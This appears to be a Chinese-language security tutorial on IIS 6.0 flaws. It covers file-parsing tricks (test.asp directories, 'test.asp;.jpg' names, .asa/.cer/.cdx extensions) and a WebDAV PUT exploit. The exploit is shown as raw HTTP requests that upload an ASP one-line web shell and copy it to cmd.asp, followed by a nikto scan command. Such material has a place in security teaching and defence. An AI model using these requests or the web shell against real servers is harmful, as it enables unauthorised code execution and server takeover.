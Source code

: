 - 目录解析（/xx.asp/xx.jpg）

在网站下建立文件夹的名字为.asp或.asa的文件夹，其目录内的任何扩展名的文件都会被IIS当做asp文件来解析并执行。

例如：创建目录test.asp，上传1.jpg到/test.asp目录下（即上传文件名为/test.asp/1.jpg 的文件），那么上传的文件将会保存在/test.asp目录下并命名为1.jpg，它可以被当做asp文件来执行。假如攻击者可以控制上传文件夹路径，就可以不管上传后的图片改不改名，都能拿shell了。

- 文件解析（xx.asp;.jpg）

在IIS6.0下，分号后面的不被解析，也就是说test.asp;.jpg会被服务器看成是asp文件来执行。

- 特殊文件后缀（.asa、.cer、.cdx）

在IIS6.0下默认可执行：

/test.asp

/test.asa

/test.cer

/test.cdx

修复建议：目前尚无微软官方的补丁，可以通过自己编写正则，阻止上传xx.asp;.jpg类型的文件名；做好权限设置，限制用户创建文件夹。

#### 2. IIS 6.0 PUT上传漏洞

WebDAV 基于HTTP1.1协议的通信协议使得HTTP支持PUT MOVE COPY DELETE 方法。

- 探测是否存在IIS PUT漏洞
```
OPTIONS / HTTP1.1
Host: www.xxx.com
```

- 上传txt文本文件
```
PUT /a.txt HTTP1.1
Host: www.xxx.com
Content-Length:30

<%eval request("cmd")%>
```

- 通过Move或Copy重名
```
COPY /a.txt HTTP1.1
Host: www.xxx.com
Destination: http://www.xxx.com/cmd.asp
```

- 删除
```
DELETE /a.txt HTTP1.1
Host: www.xxx.com
```

或者利用kali下的nikto工具探测

- nikto -h IP地址
